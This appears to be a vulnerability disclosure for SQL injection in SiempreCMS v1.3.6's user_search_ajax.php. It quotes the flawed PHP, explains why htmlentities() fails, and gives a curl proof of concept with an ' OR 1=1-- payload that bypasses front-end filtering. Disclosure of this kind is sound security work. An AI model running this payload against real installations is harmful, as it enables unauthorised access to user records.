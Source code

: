 # SQL Injection in Siempre CMS ``(user_search_ajax.php)``

**Vulnerability Type:** SQL Injection (SQLi) 
</br>
**Affected Component:** ``user_search_ajax.php``
</br>
**Affected Parameters:** ``user-search-username, user-search-name``
</br>
**Product:** *[SiempreCMS v1.3.6](https://github.com/SiempreCMS/SiempreCMS)*

The ``user_search_ajax.php`` file is vulnerable to SQL injection due to improper handling of user-supplied input. User inputs are passed directly to the database query without proper parameterization or prepared statements.

The vulnerability resides on ``user_search_ajax.php``.

```php
if (isset($_POST['action']) && $_POST['action'] == 'search') {	
    $name = trim(htmlentities($_POST['user-search-name']));
    $userName = trim(htmlentities($_POST['user-search-username']));
    $perPage = intval(trim(htmlentities($_POST['user-search-perpage'])));
    $offset = (intval(trim(htmlentities($_POST['user-search-page']))) - 1) * $perPage;

    $usersearch = new usersearch();
    if($usersearch->getUsers($name, $userName, $perPage, $offset)) {	
        echo(json_encode(array('result' => true, 'results' => $usersearch->results, 'totalrows' => $usersearch->totalRows)));
        exit();
    }
}
```

### Why it’s vulnerable:
  - ``htmlentities()`` only escapes HTML characters, it does not prevent SQL injection.

  - ``$name`` and ``$userName`` are likely concatenated directly into SQL inside ``getUsers()``.

  - No prepared statements or parameterized queries are used.

---

### Proof-of-Concept
You need to grab first your ``PHPSESSID`` after logging in so you can do the exploit.
</br>
The following curl command demonstrates SQL injection:

```bash
curl -X POST \
  -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
  --data-urlencode "action=search" \
  --data-urlencode "user-search-username=test' OR 1=1-- " \
  --data-urlencode "user-search-name=test" \
  --data-urlencode "user-search-perpage=20" \
  --data-urlencode "user-search-page=1" \
  http://localhost/SiempreCMS/docs/admin/user_search_ajax.php
```
**Output:**
![](./sqlievidence.png)

---

### Important Note: Browser vs Terminal Behavior
  - When the same payload ``(' OR 1=1 --)`` is entered directly in the web interface, it does not trigger the SQLi.
  - This is because the front-end JavaScript ``(js/user.js)`` sanitizes or encodes the input before sending the AJAX request, preventing the raw payload from reaching the server.
  - Directly sending the POST request via curl bypasses all front-end filtering, which is why the vulnerability is exploitable outside the browser interface.

**Evidence:**
![](./sqli.png)



